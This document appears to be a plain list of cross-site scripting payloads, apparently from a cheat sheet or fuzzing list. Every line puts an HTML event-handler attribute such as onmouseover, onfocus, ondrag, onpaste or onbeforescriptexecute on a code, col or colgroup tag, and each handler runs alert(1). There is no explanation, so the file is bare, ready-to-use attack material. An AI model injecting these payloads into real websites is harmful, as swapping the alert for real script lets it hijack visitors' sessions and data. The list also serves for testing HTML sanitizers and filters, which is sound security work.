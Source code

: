 <code oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<code oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<code ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</code>
<code onfocusout=alert(1) id=x tabindex=1 style=display:block>test</code><input value=clickme>
<code onkeydown="alert(1)" contenteditable style=display:block>test</code>
<code onkeypress="alert(1)" contenteditable style=display:block>test</code>
<code onkeyup="alert(1)" contenteditable style=display:block>test</code>
<code onmousedown="alert(1)" style=display:block>test</code>
<code onmouseenter="alert(1)" style=display:block>test</code>
<code onmouseleave="alert(1)" style=display:block>test</code>
<code onmousemove="alert(1)" style=display:block>test</code>
<code onmouseout="alert(1)" style=display:block>test</code>
<code onmouseover="alert(1)" style=display:block>test</code>
<code onmouseup="alert(1)" style=display:block>test</code>
<code onmousewheel=alert(1) style=display:block>requires scrolling
<code onpaste="alert(1)" contenteditable>test</code>
<code onpointerdown=alert(1) style=display:block>XSS</code>
<code onpointerenter=alert(1) style=display:block>XSS</code>
<code onpointerleave=alert(1) style=display:block>XSS</code>
<code onpointermove=alert(1) style=display:block>XSS</code>
<code onpointerout=alert(1) style=display:block>XSS</code>
<code onpointerover=alert(1) style=display:block>XSS</code>
<code onpointerrawupdate=alert(1) style=display:block>XSS</code>
<code onpointerup=alert(1) style=display:block>XSS</code>
<col draggable="true" ondrag="alert(1)" style=display:block>test</col>
<col draggable="true" ondragend="alert(1)" style=display:block>test</col>
<col draggable="true" ondragenter="alert(1)" style=display:block>test</col>
<col draggable="true" ondragleave="alert(1)" style=display:block>test</col>
<col draggable="true" ondragstart="alert(1)" style=display:block>test</col>
<col id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></col>
<col id=x tabindex=1 onfocus=alert(1)></col>
<col id=x tabindex=1 onfocusin=alert(1)></col>
<col onafterscriptexecute=alert(1)><script>1</script>
<col onbeforecopy="alert(1)" contenteditable>test</col>
<col onbeforecut="alert(1)" contenteditable>test</col>
<col onbeforescriptexecute=alert(1)><script>1</script>
<col onblur=alert(1) id=x tabindex=1 style=display:block>test</col><input value=clickme>
<col onclick="alert(1)" style=display:block>test</col>
<col oncontextmenu="alert(1)" style=display:block>test</col>
<col oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<col oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<col ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</col>
<col onfocusout=alert(1) id=x tabindex=1 style=display:block>test</col><input value=clickme>
<col onkeydown="alert(1)" contenteditable style=display:block>test</col>
<col onkeypress="alert(1)" contenteditable style=display:block>test</col>
<col onkeyup="alert(1)" contenteditable style=display:block>test</col>
<col onmousedown="alert(1)" style=display:block>test</col>
<col onmouseenter="alert(1)" style=display:block>test</col>
<col onmouseleave="alert(1)" style=display:block>test</col>
<col onmousemove="alert(1)" style=display:block>test</col>
<col onmouseout="alert(1)" style=display:block>test</col>
<col onmouseover="alert(1)" style=display:block>test</col>
<col onmouseup="alert(1)" style=display:block>test</col>
<col onmousewheel=alert(1) style=display:block>requires scrolling
<col onpaste="alert(1)" contenteditable>test</col>
<col onpointerdown=alert(1) style=display:block>XSS</col>
<col onpointerenter=alert(1) style=display:block>XSS</col>
<col onpointerleave=alert(1) style=display:block>XSS</col>
<col onpointermove=alert(1) style=display:block>XSS</col>
<col onpointerout=alert(1) style=display:block>XSS</col>
<col onpointerover=alert(1) style=display:block>XSS</col>
<col onpointerrawupdate=alert(1) style=display:block>XSS</col>
<col onpointerup=alert(1) style=display:block>XSS</col>
<colgroup draggable="true" ondrag="alert(1)" style=display:block>test</colgroup>